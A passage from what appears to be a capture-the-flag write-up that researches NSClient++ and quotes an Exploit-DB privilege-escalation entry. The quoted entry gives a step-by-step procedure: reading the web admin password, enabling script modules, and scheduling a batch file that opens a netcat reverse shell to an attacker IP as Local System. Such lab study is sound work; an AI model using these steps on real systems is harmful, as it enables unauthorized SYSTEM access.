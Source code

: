 ### NSClient++ Exploit Research

A Google search of nsclient++ and changelog leads to [http://www.nsclient.org/download/0.5.2/](http://www.nsclient.org/download/0.5.2/), where we can correlate the dates in the changelog.ini with the versions of the program's releases.  It seems as if we are on nightly build version 0.5.2.31 from 2018-01-18. 

Again, a quick Searchsploit check found an exploit that might work for this version.  [https://www.exploit-db.com/exploits/46802](https://www.exploit-db.com/exploits/46802)

```text
Exploit Author: bzyo
Twitter: @bzyo_
Exploit Title: NSClient++ 0.5.2.35 - Privilege Escalation
Date: 05-05-19
Vulnerable Software: NSClient++ 0.5.2.35
Vendor Homepage: http://nsclient.org/
Version: 0.5.2.35
Software Link: http://nsclient.org/download/
Tested on: Windows 10 x64

Details:
When NSClient++ is installed with Web Server enabled, local low privilege users 
have the ability to read the web administator's password in cleartext from the 
configuration file.  From here a user is able to login to the web server and 
make changes to the configuration file that is normally restricted.  

The user is able to enable the modules to check external scripts and schedule 
those scripts to run.  There doesn't seem to be restrictions on where the scripts 
are called from, so the user can create the script anywhere.  Since the NSClient++ 
Service runs as Local System, these scheduled scripts run as that user and the low 
privilege user can gain privilege escalation.  A reboot, as far as I can tell, is 
required to reload and read the changes to the web config.  

Prerequisites:
To successfully exploit this vulnerability, an attacker must already have local 
access to a system running NSClient++ with Web Server enabled using a low 
privileged user account with the ability to reboot the system.

Exploit:
1. Grab web administrator password
- open c:\program files\nsclient++\nsclient.ini
or
- run the following that is instructed when you select forget password
	C:\Program Files\NSClient++>nscp web -- password --display
	Current password: SoSecret

2. Login and enable following modules including enable at startup and save 
configuration:
- CheckExternalScripts
- Scheduler

3. Download nc.exe and evil.bat to c:\temp from attacking machine
	@echo off
	c:\temp\nc.exe 192.168.0.163 443 -e cmd.exe

4. Setup listener on attacking machine
	nc -nlvvp 443

5. Add script foobar to call evil.bat and save settings
- Settings > External Scripts > Scripts
- Add New
	- foobar
		command = c:\temp\evil.bat
```